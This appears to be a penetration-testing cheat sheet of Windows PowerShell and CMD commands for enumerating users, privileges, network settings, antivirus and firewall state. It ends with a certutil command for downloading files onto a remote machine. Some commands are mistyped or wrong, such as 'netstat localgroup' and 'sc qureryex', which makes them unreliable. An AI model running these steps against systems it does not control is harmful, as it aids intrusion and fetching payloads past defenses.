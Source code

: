 ```powershell
(Get-ItemProperty
HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin
e -Name PowerShellVersion).PowerShellVersion
```
## PSDrives & Providers
- A PSDrive is a pointer to a data structure that is managed by
something called a PSProvider.
- PSDrives are attacker-controlable. 
```powershell
#Providers are enumerable with:
Get-PSProvider
#PSDrives are Enumerable with:
Get-PSDrive
```
## User enumeration
```powershell
#To get privileges for the user
whoami /priv
#To get the groups for the user
whoami /groups
#To list all users on the machine
net user
#To get info about s single user
net user <USER>
#To list all members of a group
netstat localgroup <GROUP>
```
## Network enumeration
```powershell
#To network stats  
ipconfig /all  
arp -a  
netstat -ano
```
## AV enumeration
```powershell
#To see the status of the windows defender  
sc query windefend  
#To list all the services running on the box  
sc qureryex type = service  
#To see the stat of the firewall   
netsh firewall show state  
netsh advfirewall dump   
#Config of firewall  
netsh firewall show config 
```
## Download files using CMD
```powershell
certutil -urlcache -f http://<site> <FILE> <location to save to on remote mahine>

#For Powershell you can use curl :)
```
